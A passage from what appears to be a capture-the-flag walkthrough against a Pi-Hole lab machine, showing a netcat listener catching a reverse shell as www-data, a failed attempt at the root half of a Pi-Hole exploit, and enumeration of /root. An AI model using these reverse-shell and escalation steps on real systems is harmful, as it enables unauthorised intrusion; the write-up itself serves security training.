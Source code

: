 At a `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:50598.
bash: cannot set terminal process group (526): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Rabbit Hole

I wasted a lot of time trying to get the other half of the Pi-Hole exploit that goes to root to work. It doesn’t. The next step is to use the same upload steps to append to an existing script, `teleporter.php`. Unfortunately, the file isn’t writable by www-data:

```

www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ ls -l teleporter.php
-rw-r--r-- 1 root root 6032 Sep 20  2019 teleporter.php

```

I suspect in a typical Pi-Hole this file is writable by www-data.

## Shell as root

### Enumeration

After wasting a ton of time with the above exploit and enumerating and not finding much, I tried to see if there even was a flag in `/root` on the container. I wasn’t expecting to have permissions to see inside `/root`, but I could:

```

www-data@pihole:/root$ ls -l
total 116
-rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
-rw-r--r-- 1 root root    485 Apr  6 07:28 pihole_config.sh

```

My gut feeling was that the `ph_install.sh` script was the legit installer script:

```

www-data@pihole:/root$ head ph_install.sh
#!/usr/bin/env bash
# shellcheck disable=SC1090

# Pi-hole: A black hole for Internet advertisements
# (c) 2017-2018 Pi-hole, LLC (https://pi-hole.net)
# Network-wide ad blocking via your own hardware.
#
# Installs and Updates Pi-hole
#
# This file is copyright under the latest version of the EUPL.

```
